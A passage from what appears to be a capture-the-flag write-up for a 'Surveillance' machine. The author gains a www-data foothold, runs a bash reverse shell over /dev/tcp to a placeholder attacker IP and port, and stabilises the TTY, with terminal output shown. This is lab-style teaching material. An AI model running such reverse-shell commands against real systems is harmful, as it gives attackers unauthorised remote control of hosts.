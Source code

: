 ```plaintext
www-data

>
```

# Access as www-data

Now i will establish a reverse shell by spawning a nc listener and executing the command `bash -c "bash -i >& /dev/tcp/<YOUR IP>/<YOUR PORT> 0>&1"`

![Shell](/assets/images/Surveillance/shell.png)

And now i will stabilize the tty for doing ctrl+c, ctrl+l, etc:

```plaintext
www-data@surveillance:~/html/craft/web$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@surveillance:~/html/craft/web$ ^Z
[1]  + 98485 suspended  nc -lvnp 443
❯ stty raw -echo;fg
[1]  + 98485 continued  nc -lvnp 443
                                    reset xterm
www-data@surveillance:~/html/craft/web$ export TERM=xterm
www-data@surveillance:~/html/craft/web$ export SHELL=bash
www-data@surveillance:~/html/craft/web$ stty rows <YOUR TERMINAL ROWS> columns <YOUR TERMINAL COLUMNS>
```
